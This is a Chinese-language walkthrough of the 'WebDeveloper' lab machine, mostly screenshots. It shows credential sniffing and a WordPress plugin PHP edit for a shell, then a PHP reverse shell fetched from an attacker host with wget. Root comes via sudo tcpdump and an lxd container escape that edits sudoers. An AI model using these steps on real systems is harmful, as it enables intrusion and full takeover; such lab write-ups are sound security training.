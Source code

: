 WebDeveloper

![image-20200621201954952](assets/WebDeveloper.assets/image-20200621201954952.png)



![image-20200621202010388](assets/WebDeveloper.assets/image-20200621202010388.png)

![image-20200621202802738](assets/WebDeveloper.assets/image-20200621202802738.png)

![image-20200621202834878](assets/WebDeveloper.assets/image-20200621202834878.png)

小鲨鱼分析一下。找到登录时的发包内容及明文凭证

![image-20200621203407035](assets/WebDeveloper.assets/image-20200621203407035.png)

```bash
webdeveloper
Te5eQg&4sBS!Yr$)wf%(DcAd
```

登录wp

![image-20200621203848874](assets/WebDeveloper.assets/image-20200621203848874.png)

老套路，改404

![image-20200621204507068](assets/WebDeveloper.assets/image-20200621204507068.png)

但是上传时出现错误

![image-20200621205352126](assets/WebDeveloper.assets/image-20200621205352126.png)



还有一种方法是修改插件内的php文件，也可以达成需要的效果

![image-20200621205258982](assets/WebDeveloper.assets/image-20200621205258982.png)

浏览器激活

```bash
http://10.10.10.141/wp-content/plugins/akismet/akismet.php
```



得到shell

![image-20200621205541654](assets/WebDeveloper.assets/image-20200621205541654.png)

基本枚举后在wp的设置中找到mysql凭证

![image-20200621205701460](assets/WebDeveloper.assets/image-20200621205701460.png)

```bash
webdeveloper
MasterOfTheUniverse
```

尝试密码复用

![image-20200621205827640](assets/WebDeveloper.assets/image-20200621205827640.png)

成功并且直接就发现可以sudo利用tcpdump

首先在tmp目录下下载我们预先在kali制作好的php reshell

![image-20200622212446204](assets/WebDeveloper.assets/image-20200622212446204.png)

```bash
wget http://192.168.43.66:8080/php-reshell.php
```

![image-20200622212511138](assets/WebDeveloper.assets/image-20200622212511138.png)

```bash
echo $'php /tmp/php-reshell.php' > /tmp/.evil
chmod +x /tmp/.evil
sudo /usr/sbin/tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.evil -Z root
```

![image-20200622212646331](assets/WebDeveloper.assets/image-20200622212646331.png)

![image-20200622212702056](assets/WebDeveloper.assets/image-20200622212702056.png)

![image-20200622212716943](assets/WebDeveloper.assets/image-20200622212716943.png)



还有另外一种提权方法



考虑到用户是lxd组成员

![image-20200621214618368](assets/WebDeveloper.assets/image-20200621214618368.png)

可以尝试另外一种提权方法

参考https://reboare.github.io/lxd/lxd-escape.html

```bash
lxd init
lxc init ubuntu:16.04 test -c security.privileged=true
lxc config device add evil whatever disk source=/ path=/mnt/root recursive=true
lxc start evil
lxc exec evil bash
```

![image-20200621215411035](assets/WebDeveloper.assets/image-20200621215411035.png)

一路回车默认即可





我们创建了一个lxc容器，为其分配了安全性特权，并将完整的磁盘安装在下/mnt/root

这时我们可以对容器内的所有内容进行控制和修改。我们有很多选择。比如修改passwd已增加root用户。也可以修改sudoers，让我们拥有的用户获得sudo 所有命令的权限。

这里我们修改sudoer

```bash
echo "%webdeveloper ALL=(ALL:ALL) ALL" >> /mnt/root/etc/sudoers
```

之后sudo su 即直接提权
